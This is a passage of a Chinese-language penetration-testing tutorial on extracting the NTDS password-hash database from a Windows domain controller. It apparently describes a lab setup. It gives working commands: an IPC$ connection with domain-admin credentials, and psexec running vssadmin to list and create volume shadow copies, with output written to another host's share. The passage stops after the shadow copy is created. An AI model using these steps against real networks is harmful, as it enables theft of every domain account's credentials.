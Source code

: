 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**八、提取域控NTDS hash文件**
=====================

  

拿到域控账号后，由于各种原因没法直接登录域控。此时通过webshell来执行命令，在普通域设备上获取域控的ntds  hash核心用户数据。实验环境及实验条件：  
  

1.已得到域管理员账号密码  
2.win7 充当被拿了shell的域内普通机器

* * *

  

---

**实验步骤**
--------

  

**1.和域控建立空链接**

`#与域控建立空连接``net use \\192.168.1.11\ipc$ "123456" /user:"safe-duck\administrator"`

```
**2.psexec对域控执行命令查看域控是否建立了卷影副本**
```

```
psexec \\192.168.1.11 -u "safe-duck\administrator"  -p "123456"  -h cmd /c "vssadmin list shadows >> \\192.168.1.201\c$\test\out.txt"
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```


当前没有卷影副本，则需要手工创建。


```

  

**3.手工创建卷影副本**  

```
psexec \\192.168.1.11 -u safe-duck\administrator  -p "123456" -h cmd /c "vssadmin create shadow /for=c:  >> \\192.168.1.201\c$\test\outs.txt"
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
